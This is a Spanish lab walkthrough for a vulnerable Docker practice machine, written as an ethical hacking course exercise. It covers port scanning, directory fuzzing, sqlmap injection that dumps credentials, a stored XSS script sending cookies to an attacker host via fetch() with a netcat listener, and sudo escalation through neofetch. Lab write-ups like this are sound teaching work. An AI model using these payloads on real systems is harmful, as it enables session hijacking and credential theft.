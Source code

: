 = Soberbia
:author: Manuel L. Quero
:toc: left
:doctype: book

<<<

== Escenario final

En esta máquina pondremos en práctica todos los conceptos aprendidos previamente. Será una prueba final diseñada para aplicar los conocimientos adquiridos. El objetivo es lograr la escalada de privilegios hasta obtener acceso como root, partiendo de un entorno que, aunque vulnerable, se asemeja a uno real. Será necesario realizar primero un reconocimiento, seguido de la ejecución de distintos tipos de ataques. Se fomenta la exploración libre, sin seguir guías preestablecidas; no obstante, proporcionaré algunas pistas para avanzar en caso de ser necesario.

<<<

== Solucionar la máquina

En esta guía se darán pistas, principalmente herramientas y cómo usarlas. Mucha suerte.

=== Despliegue de la máquina

Como requisito, necesitaremos tener instalado docker y docker-compose.

Podemos ver como instalar docker para varias distribuciones de linux -> https://docs.docker.com/engine/install/[Instalar Docker]

Podemos ver como instalar docker-compose para varias distribuciones de linux -> https://docs.docker.com/compose/install/linux/[Instalar Docker-Compose]

Necesitaremos descargar primeramente el auto_deploy.sh, el cual se muestra como una pirámide en la página. Después deberemos meter en un directorio tanto el auto_deploy.sh como el archivo de soberbia.tar, y ejecutar los siguientes comandos.

(Si el auto_deploy no tiene permisos se los damos mediante *chmod +x*). 

[source,bash]
----
$ sudo bash auto_deploy.sh soberbia.tar
----

=== Reconocimiento

==== Fase 1

Empezaremos conociendo los puertos que tiene abiertos el servidor.

.Pista 1
[%collapsible]
====
Para ello haremos uso primeramente de https://nmap.org/man/es/index.html[nmap].

[source,bash]
----
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn (IP) -oG allPorts
----

* *sudo* -> Necesario porque -sS (SYN scan) requiere privilegios.
* *nmap* -> Llama a la herramienta Nmap.
* *-p-* -> Escanea todos los 65535 puertos TCP (no solo los comunes).
* *--open* -> Muestra solo los puertos abiertos (oculta filtrados/cerrados).
* *-sS* -> SYN scan (stealth scan). Muy rápido y difícil de detectar.
* *--min-rate 5000* -> Fuerza a Nmap a enviar al menos 5000 paquetes por segundo, lo que acelera el escaneo.
* *-vvv* -> Muestra información muy detallada durante el escaneo.
* *-n* -> No resuelve nombres de host (más rápido).
* *-Pn* -> No hace ping; asume que el host está activo (útil si ICMP está bloqueado).
* *(IP)* -> La dirección IP del objetivo.
* *-oG allPorts* -> Guarda los resultados en formato grepable (fácil de extraer con grep o awk) en el archivo allPorts.

[.text-center]
image::assets/recon/nmap/nmap.png[nmap]

Como podemos ver están abiertos los puertos 80 y 22
====

.Pista 2
[%collapsible]
====
Podemos ver sus versiones con el siguiente comando:

[source,bash]
----
nmap -p (PORTS) -sC -sV (IP) 
----

* *-p (PORTS)* -> Indica los puertos que quieres escanear. Puedes poner un solo puerto (80), varios (22,80,443) o un rango (1-1000).
* *-sC* -> Usa los scripts por defecto de Nmap (los más comunes y seguros). Es similar a usar --script=default. Esto ayuda a detectar servicios, banners, configuraciones inseguras, etc.
* *-sV* -> Hace una detección de versión: intenta identificar el software y su versión en cada puerto abierto (por ejemplo, Apache 2.4.57).
* *(IP)* -> La dirección IP del objetivo.

[.text-center]
image::assets/recon/nmap/nmapVer.png[Versiones nmap]

Una vez identificadas las versiones de los servicios, podemos comprobar si están desactualizadas y si presentan vulnerabilidades conocidas (CVEs) que podamos explotar.
====

.Sugerencia
[%collapsible]
====
Generalmente, los exploits se encuentran en repositorios como GitHub o en bases de datos especializadas como Exploit-DB. Para facilitar esta búsqueda, podemos utilizar herramientas como *https://www.exploit-db.com/searchsploit[searchsploit]*, que permite consultar Exploit-DB desde la terminal y verificar si existen exploits públicos para una versión específica.

[.text-center]
image::assets/recon/nmap/searchsploit.png[searchsploit]

Podemos observar que no se ha encontrado ningún exploit relevante en Exploit-DB. Es importante ser precisos con los términos de búsqueda, ya que searchsploit devuelve todos los resultados relacionados, aunque no estén directamente vinculados con nuestros servicios. Por este motivo puede aparecer algún resultado, pero no necesariamente se aplica a nuestro caso.
====

==== Fase 2

Cómo ya hemos podido conocer, se trata de una página web sin certificado y con una conexión ssh, por lo que vamos a empezar analizando la página.

[.text-center]
image::assets/recon/fuzz/pagina.png[pagina login]

.Pista 3
[%collapsible]
====
Aparentemente se ve una página que no tiene nada, pero es muy posible que posea directorios y subdirectorios con archivos. Para conocer la estructura vamos hacer lo que se denomina como fuzzing de contenido, es muy útil para identificar rutas sensibles como /admin, /backup, /config.php, etc. En nuestro caso usaremos https://www.kali.org/tools/feroxbuster/[feroxbuster] y https://www.kali.org/tools/gobuster/[gobuster], y compararemos.

[source,bash]
----
feroxbuster -u http://(IP) -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --depth 0 --timeout 5
----

* *-u http://(IP)* -> Define la URL objetivo. Puedes sustituir (IP) por una dirección IP o dominio.
* *-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt* -> Especifica el diccionario que se usará para generar las rutas a probar (en este caso, uno mediano del paquete de DirBuster).
* *--depth 0* -> Recursividad infinita.
* *--timeout 5* -> Define un tiempo de espera de 5 segundos por solicitud antes de que feroxbuster la descarte por falta de respuesta.

[.text-center]
image::assets/recon/fuzz/feroxbuster.png[feroxbuster]
====

.Pista 4
[%collapsible]
====
[source,bash]
----
gobuster dir -u (IP) -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
----

* *dir* -> Le especificamos que queremos buscar directorios
* *-u (IP)* -> Define la URL objetivo. Puedes sustituir (IP) por una dirección IP o dominio.
* *-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt* ->  Especifica el diccionario que se usará para generar las rutas a probar (en este caso, uno mediano del paquete de DirBuster).

Gobuster es bastante sencillo de usar, pero un defecto que tiene es que no permite recursividad, teniendo que usar scripts para que haga dicha recursividad. Sinceramente veo feroxuster como una mejora de este.

[.text-center]
image::assets/recon/fuzz/gobuster.png[gobuster]
====

==== Fase 3

.Pista 5
[%collapsible]
====
Bueno, una vez conociendo la estructura, podemos apreciar que hay un directorio en /dev, que se llama pruebas, o un alias de esta ruta que es /devzone. Esto nos sugiere que los desarrolladores podrían estar utilizando esta ruta para realizar pruebas antes de lanzar la versión final del sitio web. Es común que estas zonas contengan código en desarrollo o funcionalidades no protegidas, lo que podría representar una posible vía de explotación.

[.text-center]
image::assets/recon/web/pruebas.png[directorio pruebas]
====

.Pista 6
[%collapsible]
====
Dentro de login.php podemos analizar las tecnologías con *wappalyzer* o con *whatweb* y ver que tecnologías usa.

[.text-center]
image::assets/recon/web/wappalyzer.png[wappalyzer]
====

.Pista 7
[%collapsible]
====
[source,bash]
----
whatweb -a 3 -v http://172.17.0.2/1/2/4/23/dev/pruebas/login.php
----

[.text-center]
image::assets/recon/web/whatweb.png[whatweb]
====

=== Ataque

==== Fase 4

Conociendo un poco más a lo que nos enfrentamos, al ser un login podemos probar con ciertos vectores.

.Pista 8
[%collapsible]
====
Efectivamente con SQLi, pero esta vez no lo vamos a hacer manual, obviamente hay formas más eficientes cómo *sqlmap*, donde comenzaremos por un reconocimiento sabiendo si es vulnerable a SQLi.

[source,bash]
----
sqlmap -u "http://172.17.0.2/1/2/4/23/dev/pruebas/login.php" --data "usuario=admin&password=admin" --batch --risk=3 --level=5 --technique=BEUSTQ
----

* *-u "http://172.17.0.2/1/2/4/23/dev/pruebas/login.php"* -> Especifica la URL del objetivo, que es un formulario de login.
* *--data "usuario=admin&password=admin"* -> Indica que se trata de una petición POST, con los parámetros usuario y password. sqlmap inyectará en estos campos. Estos los podemos encontrar si hacemos F12 en la página y observando los atributos *name* o *id* de los inputs correspondientes.
* *--batch* -> Ejecuta el escaneo de forma automática, aceptando las opciones por defecto sin preguntar al usuario. Muy útil para automatizar.
* *--risk=3* -> Aumenta el nivel de riesgo de las pruebas. Va de 0 a 3. Este nivel puede activar payloads más agresivos.
* *--level=5* -> Aumenta la profundidad del escaneo. Va de 1 a 5.
* *--technique=BEUSTQ* -> Define las técnicas de inyección SQL a usar:
** B: Boolean-based
** E: Error-based
** U: Union-based
** S: Stacked queries
** T: Time-based blind
** Q: Inline queries

[.text-center]
image::assets/atacar/sqli/sqlmap.png[sqlmap recon]

Cómo podemos ver el parametro usuario es vulnerable, además más abajo se especifica la versión de Mariadb. Ahora vamos a atacar y obtener las credenciales.
====

.Pista 9
[%collapsible]
====
[source,bash]
----
sqlmap -u "http://172.17.0.2/1/2/4/23/dev/pruebas/login.php" --data "usuario=admin&password=admin" --dump --batch
----

* *-u "http://172.17.0.2/1/2/4/23/dev/pruebas/login.php"* -> URL objetivo. Aquí es la página login.php, que probablemente procese un formulario de login.
* *--data "usuario=admin&password=admin"* -> Indica que se trata de una petición POST, con los datos que se envían (usuario=admin&password=admin). Estos son los campos donde sqlmap probará la inyección.
* *--dump* -> Si se encuentra una inyección válida, extraerá y mostrará automáticamente el contenido de las tablas de la base de datos.
* *--batch* -> Ejecuta en modo automático, sin pedir confirmación para cada acción (muy útil en entornos automatizados o pruebas rápidas).

[.text-center]
image::assets/atacar/sqli/sqliattack.png[ataque sqli]

Como podemos ver, hemos obtenido las credenciales de los usuarios admin y test, por lo que podremos pasar el login.
====

==== Fase 5

Una vez en comentarios, podemos probar cómo funciona el sistema, enviamos un mensaje y nos lo devuelve. Esto nos puede recordar a primeros vectores que aprendimos.

.Pista 10
[%collapsible]
====
Podemos hacer un ataque XSS almacenado, asi que podemos obtener las cookies por *netcat* o mirar en Storage al F12.

[.text-center]
image::assets/atacar/xss/comentarios.png[página comentarios]
====

.Pista 11
[%collapsible]
====
[source,bash]
Mediante el comando *nc* nos podemos conectar a los puertos TCP/UDP de un host. De este modo podemos conectarnos a otros servidores usando diferentes protocolos de red. Además, también es posible crear servidores que se mantengan a la escucha de peticiones entrantes. Los puertos se abrirán por defecto mediante el protocolo TCP, aunque también se acepta el protocolo UDP. En nuestro caso, abrimos un puerto poco frecuenta para recibir los datos, la primera vez que hicimos XSS creamos nuestro propio netcat.

----
nc -lvpn 4444
----

[.text-center]
image::assets/atacar/xss/netcat1.png[comando netcat]
====

.Pista 12
[%collapsible]
====
Después, dentro del comentario meteremos el siguiente script en javascript, que nos pasará las cookies del usuario actual.

[source,javascript]
----
<script>fetch('http://(IP atacante):4444?cookie=' + encodeURIComponent(document.cookie));</script>
----

[.text-center]
image::assets/atacar/xss/xss.png[xss script]

Una vez enviado dicho script veremos una cadena muy larga en GET, ese es el contenido de la cookie:

[.text-center]
image::assets/atacar/xss/netcat2.png[envio de cookies a netcat]
====

.Pista 13
[%collapsible]
====
Copiamos esta cadena y la decodificamos con *cyberchef*, una herramienta web muy util para estos casos. Usamos URL decode, para ver el contenido:

[.text-center]
image::assets/atacar/xss/cyberchef.png[cyberchef]
====

.Pista 14
[%collapsible]
====
Podemos ver que se almacenan las credenciales de ssh, han puesto el usuario y la contraseña hasheada separada por dos puntos. Para crackear hash podemos usar *Crackstation*:

* *Usuario:*

[.text-center]
image::assets/atacar/xss/CrackUser.png[nombre usuario]

* *Contraseña:*

[.text-center]
image::assets/atacar/xss/CrackPasswd.png[contraseña]

Una vez hecho esto ya tendríamos las credenciales del ssh. 
====

.Sugerencia
[%collapsible]
====
También hay otra forma más sencilla de obtener las cookies, simplemente quería mostrar otra forma para hacer XSS y usar netcat. Le damos a F12 en la página y nos vamos a Storage, ahí podremos obtener los hashes que hemos crackeado antes.

[.text-center]
image::assets/atacar/xss/F12.png[inspeccionar]
====

==== Fase 6

Con las credeciales ssh, nos conectamos al servidor:

[.text-center]
image::assets/atacar/escalada/ssh.png[conexión con el servidor]

.Pista 15
[%collapsible]
====
Ahora veremos si tenemos algún privilegio:

[.text-center]
image::assets/atacar/escalada/sudo-l.png[comando sudo -l]
====

.Pista 16
[%collapsible]
====
Podemos ver que tenemos permisos de administración en neofetch. Por lo que buscamos en https://gtfobins.github.io/gtfobins/neofetch/[GTFOBins] si podemos escalar a través de él.

[.text-center]
image::assets/atacar/escalada/gtfobins.png[gtfobins]
====

.Pista 17
[%collapsible]
====
Podemos ver que, para escalar privilegios, debemos crear un archivo temporal con el contenido exec /bin/sh y pasarlo como configuración a neofetch, ejecutado con sudo. Dicho esto, copiamos y pegamos lo que nos indica y obtenemos privilegios de root.

[.text-center]
image::assets/atacar/escalada/root.png[somos root]
====

<<<

== Conclusión

De esta forma hemos aprendido cómo funciona una máquina sencilla, con multiples vulnerabilidades, aprendiendo a usar herramientas reales y que normalmente se usan en estos entornos. Además hemos refrescado conocimientos y visto algunos de otra forma. Si queremos avanzar más en el mundo del hacking ético y aprender más recomiendo lo siguiente:

* Conocerte bien, saber que rama quieres aprender, centrándote en atacar o en defender, es vital para luego hacer los certificados, ya que sabrás en cual encajas mejor.
* Hacer muchas máquinas, esto ha sido un ensayo, donde hemos aprendido lo más básico, allí fuera en internet hay máquinas mucho más complejas y divertidas de explorar. Por ello recomiendo:
** https://tryhackme.com/[TryHackMe].
** https://www.hackthebox.com/[HackTheBox].
* Si tenemos tiempo, recomiendo hacer cursos, ya sea aprendiendo lenguajes de programación, cómo de otras destrezas. Siempre es útil aprender, y hay en youtube muchos canales que nos pueden ayudar o academias que ofrecen cursos gratis:
** Academias cómo Udemy.
** Canales cómo S4vitar, MoureDev, El Pingüino de Mario, NetworkChuck, David Bombal, LaurieWired.
* Por último, hacer certificaciones, hay obviamente cursos que te preparan para ello, y es muy recomendable tenerlos para demostrar que sabes hacerlo.
** Dejo este roadmap que nos puede ser muy util para planificar nuestros estudios https://pauljerimy.com/security-certification-roadmap/[CERTS].

Espero que os haya gustado este viaje por las entrañas del infierno, donde hemos aprendido los principales vectores de ataque y cómo mitigarlos. Vuestro Vírgilio se despide de vosotros.

----
"Cuanto más silencioso te vuelves, más puedes oír." 

- Baba Ram Dass
----